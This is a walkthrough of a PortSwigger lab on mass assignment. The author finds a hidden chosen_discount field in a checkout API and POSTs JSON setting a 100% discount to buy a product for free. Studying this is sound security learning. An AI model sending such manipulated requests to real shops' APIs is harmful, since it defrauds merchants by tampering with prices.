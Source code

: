 # Exploiting a mass assignment vulnerability

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability), you'll learn: Exploiting a mass assignment vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164125.png)

In here, we can purchase some products.

Let's login as user `wiener`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164225.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164232.png)

After playing around at the web application, an API endpoint can be discovered.

First, go to a product's detail page by clicking the "View details" button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164639.png)

Then, add the product into our cart:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164736.png)

Next, go to our cart:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510164757.png)

In here, we can view the page source by hitting Ctrl + U, and we should see the following HTML elements:

```html
[...]
<script type='text/javascript'>
    const getApiEndpoint = () => '/api/checkout';
    const buildProductRow = (id, name, price, quantity) => `        <tr>
<td>
    <a href=/product?productId=${encodeURIComponent(id)}>${name}</a>
</td>
<td>${price}</td>
<td>
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=-1>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>-</button>
    </form>
    ${quantity}
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=1>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>+</button>
    </form>
</td>
<td>
    <form action=/cart method=POST style='display: inline'>
        <input required type=hidden name=productId value=${encodeURIComponent(id)}>
        <input required type=hidden name=quantity value=-${quantity}>
        <input required type=hidden name=redir value=CART>
        <button type=submit class=button style='min-width: auto'>Remove</button>
    </form>
</td>
</tr>
        `;
</script>
<script type='text/javascript' src='/resources/js/api/checkout.js'></script>
[...]
```

**In the inline JavaScript code, we can see that an API endpoint is at `/api/checkout`:**
```javascript
const getApiEndpoint = () => '/api/checkout';
```

**In the loaded JavaScript file at `/resources/js/api/checkout.js`, we can see the API endpoint has 2 methods, `GET` and `POST`:**
```javascript
[...]
const doLoadCart = () => {
    fetch(
        getApiEndpoint(),
        {
            method: 'GET'
        }
    )
        .then(res => res.json())
        .then(order => { cachedOrder = getProductIdsAndQuantitiesFromOrder(order); loadOrder(order); });
}

const doCheckout = (event) => {
    event.preventDefault();

    if (cachedOrder == null) {
        throw new Error("No cached order found!");
    }

    fetch(
        getApiEndpoint(),
        {
            method: 'POST',
            body: JSON.stringify(cachedOrder)
        }
    )
        .then(res => res.headers.get("Location"))
        .then(loc => window.location = loc);
};

window.onload = () => {
    doLoadCart();
}
```

When the `window` JavaScript object is loaded, it'll get the user's cart details.

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510165751.png)

**We can also see the GET request to `/api/checkout`'s respond when we go to our cart, which has this JSON data:**
```json
{
    "chosen_discount":
    {
        "percentage": 0
    },
    "chosen_products":
    [
        {
            "product_id": "1",
            "name": "Lightweight \"l33t\" Leather Jacket",
            "quantity": 1,
            "item_price": 133700
        }
    ]
}
```

In the above JSON data, we can see there's a **`chosen_discount` parameter**. In our cart page, it didn't show that to us:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170321.png)

**Also, when we trying to place an order, it sends this POST request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171201.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171215.png)

As you can see, there's no **`chosen_discount` parameter** when we clicked the "Place order" button.

With the above information, we know that there's an API endpoint at `/api/checkout`. We can try to access the base path of the API endpoint (`/api/`) to get the documentation of this API:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170446.png)

As expected, it has 1 API endpoint with 2 methods.

In the GET method, it return the entire `Order` object:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170839.png)

In the POST method, **we can also provide the entire `Order` object**??

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510170915.png)

## Exploitation

Hmm... Maybe we can **apply a non-existence discount via exploiting the mass assignment vulnerability**?

Mass assignment (also known as auto-binding) can inadvertently create hidden parameters. It occurs when software frameworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.

**Armed with the above information, we can construct the following JSON data for the place order POST request:**
```json
{
    "chosen_discount":
    {
        "percentage": 100
    },
    "chosen_products":
    [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

By doing so, we apply our non-existence 100% off discount on the product, thus the product is free buy!

**Let's send this data to the API endpoint `/api/checkout` with POST method!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171636.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-3/images/Pasted%20image%2020240510171643.png)

Nice! We bought the product for free!

## Conclusion

What we've learned:

1. Exploiting a mass assignment vulnerability